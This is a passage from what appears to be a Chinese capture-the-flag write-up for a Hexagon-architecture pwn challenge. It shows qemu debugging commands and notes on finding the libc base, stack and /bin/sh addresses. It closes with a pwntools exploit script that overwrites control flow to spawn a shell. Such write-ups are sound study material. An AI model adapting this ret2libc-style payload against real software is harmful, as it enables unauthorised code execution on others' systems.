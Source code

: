 ```
qemu-hexagon ./main

```  
  
  
![image-20250212181714101](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8FwPmAUPj9VFC18uibWbG9lc6hAibp13EgZGVU1E17LWMFq50ib3pBMwQYJjOicIxz38LSO8EibkWCa54g/640?wx_fmt=png&from=appmsg "")  
  
  
◆调试  
  
  
```
qemu-hexagon -L libc -d in_asm,exec,cpu,page,nochain -singlestep -dfilter 0x20420+0xc0 -strace -D ./log ./main

```  
  
  
  
这里也是根据wp的提示，直接看日志文件，找libc基址和栈地址。（看日志还是很简单的）  
  
  
![image-20250213154028105](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8FwPmAUPj9VFC18uibWbG9lcicNWvLuKhUugYU1VH3GGwunica0pzXXVedm0NzCyaPcBQxsPT5zEfepw/640?wx_fmt=png&from=appmsg "")  
  
![image-20250213154106143](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8FwPmAUPj9VFC18uibWbG9lcJnwNO86FpS0h2NufUnj69j0O1XE6hiaTjYBRfNJq1PImCncjMWuHX1w/640?wx_fmt=png&from=appmsg "")  
  
  
但是再找/bin/sh的地址时，直接看libc.so中文件的/bin/sh的偏移即可。  
  
  
![image-20250213154408051](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8FwPmAUPj9VFC18uibWbG9lc1MzStTsGx8G2SdOdTmKOjzMvhWDXiakL5q8yPq1orRO6Kibc09ANm8wQ/640?wx_fmt=png&from=appmsg "")  
  
  
这  
里看到  
  
  
![image-20250213154451923](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8FwPmAUPj9VFC18uibWbG9lcD2pMNhLPHibywjXbO0O5PfPoxLs3ytPb0Pj0tvibRsJsruBUfbaFTO8A/640?wx_fmt=png&from=appmsg "")  
  
  
满足三个条件就行，然后我们的脚本就可以正常跑了。  
  
  
```
from pwn import *

r=process('./main')
context(os='linux', log_level='debug')
libc = ELF('./libc.so')

stack = 0x4080efe8
libc_base = 0x3FEC0000 
binsh = libc_base+0x119f7

#r.recv()
r.sendline(str(binsh).encode())#传字符串/bin/sh

payload = p32(0)*2 + p32(stack+8)+p32(libc_base+0xBE7C0)
r.send(payload)#打ret2text

r.interactive()

```  
  